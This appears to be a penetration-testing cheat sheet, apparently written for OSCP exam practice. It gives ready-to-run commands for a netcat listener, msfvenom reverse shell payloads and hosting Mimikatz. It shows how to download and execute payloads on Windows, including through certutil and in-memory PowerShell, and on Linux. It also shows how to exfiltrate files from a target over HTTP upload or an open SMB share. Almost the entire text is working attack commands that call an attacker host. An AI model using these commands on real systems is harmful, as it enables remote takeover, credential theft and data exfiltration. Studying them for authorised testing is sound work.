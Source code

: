 # 1. Setup Kali for connections

## 1.1. Setup listener

```console
nc -nlvp 4444
```
|   |   |
|---|---|
|`-n`|numeric-only IP addresses, no DNS|
|`-l`|listen mode, for inbound connects|
|`-v`|verbose [use twice to be more verbose]|
|`-p`|local port number (port numbers can be individual or ranges: lo-hi [inclusive])|

## 1.2. Prepare payload transfer

Prepare files to web server root

☝️ Apache2 is already running with DocumentRoot at `/var/www/html`

If Kali isn't setup as web server, use `python3 -m http.server 80 &> /dev/null &` to run a web server endpoint, the web server root will be the `pwd` where the command was run

### Mimikatz:

```console
cp /usr/share/windows-resources/mimikatz/x64/mimikatz.exe /var/www/html
```

### MSFVenom reverse shell TCP:

☝️ omit the `x64` to generate a x86 payload

Linux:

|   |   |
|---|---|
|Python|`msfvenom -p linux/x64/shell_reverse_tcp LHOST=kali.vx LPORT=4444 -f py -o /var/www/html/reverse.py`|
|Executable and Linkable Format (elf)|`msfvenom -p linux/x64/shell_reverse_tcp LHOST=kali.vx LPORT=4444 -f elf -o /var/www/html/reverse.elf`|

Windows:

```console
msfvenom -p windows/x64/shell_reverse_tcp LHOST=kali.vx LPORT=4444 -f exe -o /var/www/html/reverse.exe
```

### PowerShell-based reverse shell script:

Download the reverse shell script:

```console
curl -O https://raw.githubusercontent.com/joetanx/oscp/main/reverse.ps1
```

Edit the address and port:

```console
sed -i 's/<ADDRESS>/kali.vx/' reverse.ps1
sed -i 's/<PORT>/4444/' reverse.ps1
```

### Other reverse shell examples at [HighOn.Coffee](https://highon.coffee/blog/reverse-shell-cheat-sheet/)

# 2. Execute payloads on Windows

## 2.1. Execute Windows reverse shell TCP payload

|   |   |
|---|---|
|certutil|`certutil.exe /urlcache /f /split http://kali.vx/reverse.exe %TEMP%\reverse.exe && %TEMP%\reverse.exe`|
|PowerShell|`powershell.exe -NoProfile -ExecutionPolicy Bypass -Command (New-Object System.Net.WebClient).DownloadFile('http://kali.vx/reverse.exe','%TEMP%\reverse.exe'); Start-Process %TEMP%\reverse.exe`|

## 2.2. Execute PowerShell-based reverse shell script

☝️ `Invoke-Expression` is useful if you don't want the payload to touch the disk, but it works for Powershell Scripts only

(i.e. `DownloadFile` of the reverse shell executable and try to run it with `Invoke-Expression` will not work)

```console
powershell.exe -NoProfile -ExecutionPolicy Bypass -Command Invoke-Expression (New-Object System.Net.WebClient).DownloadString('http://kali.vx/reverse.ps1')
```

# 3. Execute payloads on Linux

## 3.1. Simply nc back (if netcat is installed on target machine)

```console
nc -nv 192.168.17.10 4444 -e /bin/sh
```

## 3.2. Execute Linux reverse shell TCP payload

|   |   |
|---|---|
|cURL|`curl -O http://kali.vx/reverse.elf && chmod +x reverse.elf && ./reverse.elf`|
|Wget|`wget http://kali.vx/reverse.elf && chmod +x reverse.elf && ./reverse.elf`|

# 4. Uploading files from Windows to Kali

## 4.1. HTTP

### 4.1.1. Setup upload page on web server

#### Prepare uploads directory

```console
mkdir /var/www/html/uploads
chown www-data:www-data /var/www/html/uploads
```

☝️ apache2 runs as `www-data` user, it needs write permission on the uploads directory for uploads to succeed

#### Prepare upload page

```console
curl -o /var/www/html/upload.php https://raw.githubusercontent.com/joetanx/oscp/main/upload.php
```

☝️ The name for the upload parameter is named as default of `file` to accommodate the PowerShell `UploadFile` method of `System.Net.WebClient` which will `POST` the file to this name

### 4.1.2. Uploading

|   |   |
|---|---|
|PowerShell|`powershell.exe -NoProfile -ExecutionPolicy Bypass -Command (New-Object System.Net.WebClient).UploadFile('http://kali.vx/upload.php','The Little Prince.jpg')`|
|cURL|`curl -H 'Content-Type:multipart/form-data' -X POST -F file=@"The Little Prince.jpg" -v http://kali.vx/upload.php`|

## 4.2. SMB

### 4.2.1. [Create a passwordless guest share in Samba](https://www.techrepublic.com/article/how-to-create-a-passwordless-guest-share-in-samba/)

```console
sed -i '/;   interfaces/a interfaces = eth0' /etc/samba/smb.conf
sed -i '/;   bind interfaces only = yes/a bind interfaces only = yes' /etc/samba/smb.conf
mkdir /home/share
chmod -R ugo+w /home/share
cat << EOF >> /etc/samba/smb.conf
[public]
path = /home/share
public = yes
guest ok = yes
writable = yes
force create mode = 0666
force directory mode = 0777
browseable = yes
EOF
systemctl enable --now smbd
```

### 4.2.2. Copy

```cmd
copy "The Little Prince.jpg" \\kali.vx\public\
```
